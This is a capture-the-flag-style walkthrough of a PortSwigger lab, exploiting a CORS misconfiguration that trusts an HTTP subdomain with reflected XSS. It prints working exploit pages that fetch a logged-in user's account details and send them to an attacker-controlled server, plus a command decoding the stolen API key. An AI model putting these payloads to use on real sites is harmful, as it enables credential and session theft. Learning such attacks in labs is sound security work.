





### CORS Vulnerability With Trusted Insecure Protocols Lab
#### Entities
Asset: https://0a130058040d652e81193421003200fb.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a130058040d652e81193421003200fb.web-security-academy.net"
crawl_links() {
  local url="$1"
  page_links=$(curl -s "$url" | grep -o 'href="[^"]*"' | cut -d'"' -f2)
  for path in $page_links; do
    full_url="${url}${path}"
    echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$full_url")"
    subpage_links=$(curl -s "$full_url" | grep -oP "(http|https)://\S+(?=['\"])")
    for sublinks in $subpage_links; do
      echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$sublinks")"
    done
  done
}
crawl_links "$URL"
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set. Also observed a subdomain url that raised a 400 Bad Request which returns a 200 status when a value of 1 is inserted in the storeId parameter.

  

#### Exploration
Explored `/?productId=20&storeId=` of the publicly accessible `stock` subdomain. Testing for Operating System Command Injection (OSCI) with `id` and `whoami` respectively, and Cross Site Scripting (XSS) with `<script>alert(1)</script>` and `<script>alert(2)</script>` respectively to discover the `productId` was vulnerable to XSS.

 

Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, null and the subdomain. Observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

#### Exploitation
Now exploit yourself while logged in with the below scripts. This requires a tls exploit server
```shell
<html lang="en">
<body>
  <script>
    var appServer = '0a130058040d652e81193421003200fb.web-security-academy.net';
    var exploitServer = 'https://ead23724e78d41.lhr.life/?log=';
    var productId = `<script>fetch('https://${appServer}/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>{fetch('${exploitServer}'+ data)}).catch(error=>alert(error));<\/script>`;
    window.location = `http://stock.${appServer}/?productId=${encodeURIComponent(productId)}&storeId=1`;
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html and on a seperate terminal expose it for global access with `ssh -o StrictHostKeyChecking=no -R 80:localhost:8000 nokey@localhost.run`. Then run `google-chrome https://ead23724e78d41.lhr.life` or even `google-chrome "http://stock.0a130058040d652e81193421003200fb.web-security-academy.net/?productId=<script>fetch('https://0a130058040d652e81193421003200fb.web-security-academy.net/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>alert(data));</script>&storeId=1"` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html>
<body>
  <script>
    var appServer = "0a130058040d652e81193421003200fb.web-security-academy.net";
    var exploitServer = "exploit-0a44002f04486514816533fd01e70075.exploit-server.net";
    var productId = `<script>var xhr = new XMLHttpRequest();xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://${exploitServer}/log=' %2b xhr.responseText)};};xhr.open('GET', 'https://${appServer}/accountDetails', true); xhr.withCredentials = true;xhr.send();%3c/script>`;
    document.location = `http://stock.${appServer}/?productId=${productId}&storeId=1`;
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22LdfibNvk2PryjBjiILDF6c7jJlgtMBKL%22,%20%20%22sessions%22:%20[%20%20%20%20%22lbUa9NrpLLfrfnpcRkXcV3MxwgO0TyTn%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-insecure-protocols-spoil.json
```

 

#### Resources
- https://portswigger.net/web-security/cors/lab-breaking-https-attack
- https://github.com/knoxknot/portswiggerlabs/tree/main/cors/03-cors-vulnerability-with-trusted-insecure-protocols